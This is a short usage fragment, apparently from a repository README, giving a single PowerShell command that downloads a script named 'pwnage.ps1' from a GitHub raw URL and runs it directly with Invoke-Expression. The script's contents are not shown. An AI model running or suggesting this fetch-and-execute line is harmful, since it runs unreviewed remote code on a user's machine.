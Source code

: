 # Use

```powershell
Invoke-Expression $(Invoke-WebRequest "https://raw.githubusercontent.com/draxel-qestit/pwnage/main/pwnage.ps1")
```
